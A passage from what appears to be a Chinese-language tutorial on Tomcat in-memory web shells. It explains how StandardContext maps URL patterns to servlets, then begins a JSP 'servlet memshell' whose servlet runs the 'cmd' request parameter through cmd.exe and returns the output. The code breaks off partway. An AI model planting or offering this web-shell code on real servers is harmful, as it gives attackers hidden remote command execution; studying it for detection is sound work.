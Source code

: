 这个方法调用了 StandardContext 的 addServletMappingDecoded 方法，添加 URL 路径与 Wrapper 对象的映射

```bash
@Override
public void addServletMappingDecoded(String pattern, String name, boolean jspWildCard) {
    // Validate the proposed mapping
    if (findChild(name) == null) {
        throw new IllegalArgumentException(sm.getString("standardContext.servletMap.name", name));
    }
    String adjustedPattern = adjustURLPattern(pattern);
    if (!validateURLPattern(adjustedPattern)) {
        throw new IllegalArgumentException(sm.getString("standardContext.servletMap.pattern", adjustedPattern));
    }

    // Add this mapping to our registered set
    synchronized (servletMappingsLock) {
        String name2 = servletMappings.get(adjustedPattern);
        if (name2 != null) {
            // Don't allow more than one servlet on the same pattern
            Wrapper wrapper = (Wrapper) findChild(name2);
            wrapper.removeMapping(adjustedPattern);
        }
        // 这里
        servletMappings.put(adjustedPattern, name);
    }
    Wrapper wrapper = (Wrapper) findChild(name);
    wrapper.addMapping(adjustedPattern);

    fireContainerEvent("addServletMapping", adjustedPattern);
}
```

通过这个方法在 servletMappings 中添加 URL 路径与 name 的映射

### 6.3 Servlet 内存马

servletMemshell.jsp:

```bash
<%--
  Created by IntelliJ IDEA.
  User: Dili
  Date: 2023/9/19
  Time: 18:43
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<% class MyServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        if(req.getParameter("cmd") != null) {
            InputStream in = null;
            try {
                in = Runtime.getRuntime().exec(new String[]{"cmd.exe", "/C", req.getParameter("cmd")}).getInputStream();
                Scanner scanner = new Scanner(in).useDelimiter("\\A");
                String out = scanner.hasNext()?scanner.next():"";
```